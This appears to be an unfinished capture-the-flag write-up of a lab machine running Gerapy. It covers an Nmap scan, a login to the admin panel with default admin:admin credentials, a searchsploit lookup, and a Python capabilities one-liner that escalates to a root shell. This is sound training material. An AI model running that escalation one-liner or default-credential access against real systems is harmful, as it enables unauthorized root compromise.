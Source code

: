 #InProgress 

## Nmap
```
PORT     STATE SERVICE  REASON         VERSION                                                                                                                                                                                             
22/tcp   open  ssh      syn-ack ttl 61 OpenSSH 8.9p1 Ubuntu 3 (Ubuntu Linux; protocol 2.0)                                                                                                                                                 
| ssh-hostkey:                                                                                                                                                                                                                             
|   256 b9:bc:8f:01:3f:85:5d:f9:5c:d9:fb:b6:15:a0:1e:74 (ECDSA)                                                      
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBYESg2KmNLhFh1KJaN2UFCVAEv6MWr58pqp2fIpCSBEK2wDJ5ap2XVBVGLk9Po4eKBbqTo96yttfVUvXWXoN3M=
|   256 53:d9:7f:3d:22:8a:fd:57:98:fe:6b:1a:4c:ac:79:67 (ED25519)                                                                                                                                                                          
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBdIs4PWZ8yY2OQ6Jlk84Ihd5+15Nb3l0qvpf1ls3wfa                                                                                                                                                         
8000/tcp open  http-alt syn-ack ttl 61 WSGIServer/0.2 CPython/3.10.6                                                                                                                                                                       
|_http-title: Gerapy                                                                                                                                                                                                                       
| http-methods:                                                                                                                                                                                                                            
|_  Supported Methods: GET OPTIONS                                                                                                                                                                                                         
|_http-server-header: WSGIServer/0.2 CPython/3.10.6
```

## Nmap UDP


# Enumeration

## HTTP

Searching for WSGIServer/0.2 CPython/3.10.6

https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/werkzeug

page not found
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102006.png?raw=true)

/admin
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102203.png?raw=true)

admin:admin let us in

adding some clients and tokens

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102403.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102447.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924102711.png?raw=true)

With this we can access the site

we could access it even with admin:admin

```
searchsploit gerapy
```
returns an exploit that works as follows:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924115623.png?raw=true)

# PrivEsc

## Manual
## Automated

### Peass

linpeas into

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924121413.png?raw=true)
https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-capabilities
```
/usr/bin/python3.10 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020240924121037.png?raw=true)


### Mimikatz

